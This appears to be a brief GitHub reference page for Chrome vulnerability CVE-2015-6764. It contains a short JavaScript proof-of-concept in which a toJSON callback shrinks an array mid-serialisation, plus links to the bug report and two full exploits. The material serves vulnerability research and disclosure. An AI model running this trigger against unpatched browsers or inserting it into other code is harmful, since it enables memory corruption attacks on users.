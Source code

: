 # CVE-2015-6764

- Date: Nov 2015
- Credit: Guang Gong of Qihoo 360 via pwn2own

## PoC

```javascript
var array = [];
var funky = {
  toJSON: function() { array.length = 1; return "funky"; }
};
for (var i = 0; i < 10; i++) array[i] = i;
array[0] = funky;
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=554946)
- [Exploit by oldfresher](https://github.com/secmob/cansecwest2016/blob/master/exploit.html)
- [Exploit by 4B5F5F4B](https://github.com/4B5F5F4B/Exploits/blob/master/Chrome/CVE-2015-6764/Exploit_V2.html)
